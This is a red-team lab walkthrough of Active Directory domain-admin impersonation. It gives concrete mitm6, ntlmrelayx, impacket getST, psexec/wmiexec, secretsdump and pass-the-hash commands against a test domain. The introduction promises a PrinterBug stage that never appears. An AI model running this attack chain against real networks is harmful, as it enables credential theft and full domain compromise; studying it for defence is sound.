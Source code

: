 ```yaml
---
title: "Red teaming Local Domain Admin Impersonation"
date: 2024-02-15 00:00:00 +0000
categories: 
  - Redteam 
  - Active Directory
---
```


## INTRODUCTION

This paper will discuss methods that penetration testers can employ to gain initial access to target networks and compromise the entire domain without relying on third-party applications or reusing plaintext credentials. We'll explore how a default Windows environment behaves when IPv6 is enabled, allowing us to execute a DNS takeover using MITM6 and relay credentials to LDAP servers secured with LDAP Over TLS using Impacket's Ntlmrelayx tool to establish new machine accounts. Leveraging these newly created machine accounts, we'll authenticate to LDAP and modify properties, granting us access to the target machine while impersonating various users, including Domain Admins. This approach relies on resource-based constrained delegation, and we'll provide a comprehensive walkthrough.

To achieve full network compromise, we'll exploit the SpoolService bug (also known as PrinterBug) to trigger authentication from the Domain Controller to a host we control, leveraging Unconstrained Delegation. By employing this technique, we can extract the krbtgt ticket and use it to extract data from the Domain Controller database.

## WHAT IS RESOURCE-BASED AND UNCONSTRAINED DELEGATIONS?

Resource-based delegation and unconstrained delegation are both mechanisms within Windows Active Directory that govern how authentication and authorization are handled.

1. **Resource-based delegation**: This is a more secure form of delegation where permissions are granted to specific resources, such as a computer or a service. It allows a service running on one computer to access resources on another computer on behalf of a user. In resource-based delegation, permissions are explicitly configured for the service account to act on behalf of a user, typically using Kerberos protocol. This delegation is more granular and controlled, limiting the scope of access and reducing the risk of privilege escalation.
    
2. **Unconstrained delegation**: In contrast, unconstrained delegation is a less secure form of delegation where a service running under a domain account can impersonate any user and request resources on their behalf without limitations. This means that the service has the ability to authenticate to other services as any user in the domain without their knowledge or consent. Unconstrained delegation poses significant security risks, as it can potentially lead to unauthorized access and privilege escalation if exploited by an attacker.
    

In summary, resource-based delegation offers more control and security by limiting access to specific resources, while unconstrained delegation provides broader access but also increases the risk of misuse and exploitation. It's important for administrators to carefully consider the security implications of each delegation type and implement the appropriate controls based on their organization's security requirements.

## WHAT IS SPN?

An SPN, or Service Principal Name, is a unique identifier for a service instance in a Windows domain. It is used by the Kerberos authentication protocol to associate a service instance with a service logon account. SPNs are crucial for the authentication process in a Windows environment, particularly in situations where services need to authenticate to other services or systems.

Here are some key points about SPNs:

1. **Unique Identifier**: An SPN is a unique identifier for a particular service, typically in the format `service_class/host:port/service_name`, where:
    
    - `service_class` specifies the general class of service (e.g., HTTP, SQL, LDAP).
    - `host:port` specifies the network location of the service.
    - `service_name` specifies the specific service instance.
2. **Associated with Service Accounts**: Each SPN is associated with a service logon account (usually a domain account) that represents the service. When a client needs to authenticate to a service, it looks up the appropriate SPN associated with that service to initiate the authentication process.
    
3. **Used in Kerberos Authentication**: SPNs play a crucial role in the Kerberos authentication process. When a client needs to authenticate to a service, it requests a Kerberos ticket from the Key Distribution Center (KDC) using the SPN of the service. The KDC then authenticates the client and issues a ticket granting ticket (TGT) and a service ticket (TGS) that the client can use to authenticate to the service.
    
4. **Registration and Maintenance**: SPNs must be registered in Active Directory to be used for Kerberos authentication. This registration process can be automatic (for certain services like Active Directory domain controllers) or manual (for custom services). Proper maintenance of SPNs, including ensuring uniqueness and accuracy, is essential for reliable Kerberos authentication.
    

In summary, an SPN is a unique identifier for a service instance in a Windows domain, used for Kerberos authentication. It helps clients locate and authenticate to services securely, making it a fundamental component of the Windows authentication infrastructure.

## WINDOWS IPV6 AND WPAD
1. **Windows IPv6**:
    
    - IPv6 is the latest version of the Internet Protocol, designed to replace IPv4 due to the exhaustion of IPv4 addresses.
    - In Windows environments, IPv6 is enabled by default alongside IPv4. It provides several advantages over IPv4, including a larger address space, improved security features, and better support for modern networking technologies.
    - Windows operating systems use IPv6 to communicate over IPv6-enabled networks. This includes features such as automatic address configuration (through stateless address autoconfiguration or DHCPv6), neighbor discovery, and routing protocols like IPv6 routing protocols.
2. **WPAD (Web Proxy Auto-Discovery Protocol)**:
    
    - WPAD is a protocol used to automatically configure web proxy settings for client devices on a network.
    - It allows client devices to automatically discover the appropriate web proxy server without manual configuration.
    - WPAD typically operates by publishing a WPAD configuration file (usually named `wpad.dat`) on a web server within the network. Clients then automatically retrieve and use this file to configure their web proxy settings.
    - WPAD can be particularly useful in corporate environments where proxy servers are commonly used to control and monitor internet access.


## What is required to execute this attack
	1 - First, we must be within the network
	2 - We must know the domain name
	3 - Tools : netexec or crackmapexec,nmap , mitm6 , ntlmrelayx, geTst.py , psexec.py or wmiexec ,if you need dump hash you can use secretsdump
#### Disclaimer
 I will be attacking the environment consisting of Windows 10 and Windows Server 2016.
## Attack DEMO

This scan is to determine the domain name and the alive machines.
```bash
netexec smb 192.168.56.100-254
```

[![Image Alt Text](/assets/img/posts/Redteam/2024-02-15-1.png)](http://127.0.0.1:4000/)
Nice we get two machine alive first DC and Second WS02 and we get domain name `cbank.local`

Also since we are creating new machine account we need to check if the LDAP over TLS (LDAPS) is configure, to do so we will use Nmap to scan the DC for port(636):

```bash
sudo nmap 192.168.56.100  -p636  -Pn
```

[![Image Alt Text](/assets/img/posts/Redteam/2024-02-15-2.png)](http://127.0.0.1:4000/)
Now that we have met all the necessary conditions for the attack, we will proceed to execute it using both the MITM6 framework and Impacket ntlmrelayx. This will allow us to relay captured credentials to LDAPS and create a new machine account using the obtained credentials. To ensure the success of the attack, it's essential to whitelist specific targets, particularly those whose machines are expected to be rebooted (client machines), while our MITM6 server is active. This will redirect traffic from the targets to our rogue DNS server. To simplify the process, I have whitelisted WS02 and will initiate the reboot from that machine in my environment.

[![Image Alt Text](/assets/img/posts/Redteam/2024-02-15-3.png)](http://127.0.0.1:4000/)
And execute ntlmrelayx targeting LDAPS on the DC as follow:

[![Image Alt Text](/assets/img/posts/Redteam/2024-02-15-4.png)](http://127.0.0.1:4000/)
If everything goes as expected, we will observe that ntlmrelayx starts capturing credential data and attempts to attack LDAPS on the domain controller.

[![Image Alt Text](/assets/img/posts/Redteam/2024-02-15-5.png)](http://127.0.0.1:4000/)

Once ntlmrelayx successfully authenticates to LDAPS using the relayed credentials, it will proceed to attempt the creation of a new machine account using these credentials. It will also modify the "msDS-AllowedToActOnBehalfOtherIdentity" file on the computer named Mark to allow the newly created machine to impersonate any user.

[![Image Alt Text](/assets/img/posts/Redteam/2024-02-15-6.png)](http://127.0.0.1:4000/)
```bash
Adding new computer with username: JHEDTLNY$ and password: B!y#d,<eQG,5kze result: OK

```
we will use the Impacket script getST.py to request a service ticket to access impersonate WS02's privileges as the domain administrator (cbank\Administrator).

```bash
impacket-getST  -spn cifs/ws02.cbank.local cbank.local/JHEDTLNY\$:'B!y#d,<eQG,5kze' -impersonate Administrator
export KRB5CCNAME=Administrator.ccache
impacket-wmiexec -no-pass -k WS02.cbank.local
impacket-psexec -no-pass -k WS02.cbank.local 

```


[![Image Alt Text](/assets/img/posts/Redteam/2024-02-15-7.png)](http://127.0.0.1:4000/)

We can use the Kerberos service ticket with Impackt SecretsDump to dump local hashes

```bash
impacket-secretsdump -no-pass -k WS02.cbank.local

```

[![Image Alt Text](/assets/img/posts/Redteam/2024-02-15-8.png)](http://127.0.0.1:4000/)
 We can use the WS02 to  enumeration 

```bash
netexec smb 192.168.56.100 -u WS02$ -H aad3b435b51404eeaad3b435b51404ee:0fd304d236c226b007307984f7c6f766 --shares
```

[![Image Alt Text](/assets/img/posts/Redteam/2024-02-15-9.png)](http://127.0.0.1:4000/)

# References


	 1- https://docs.microsoft.com/en-us/windows-server/security/kerberos/kerberos-constrained-delegation-overview
	 2- https://chryzsh.github.io/relaying-delegation/
	 3- https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/
	 4- https://www.youtube.com/watch?v=Zb-Fp62N2y8&t=2503s (arabic)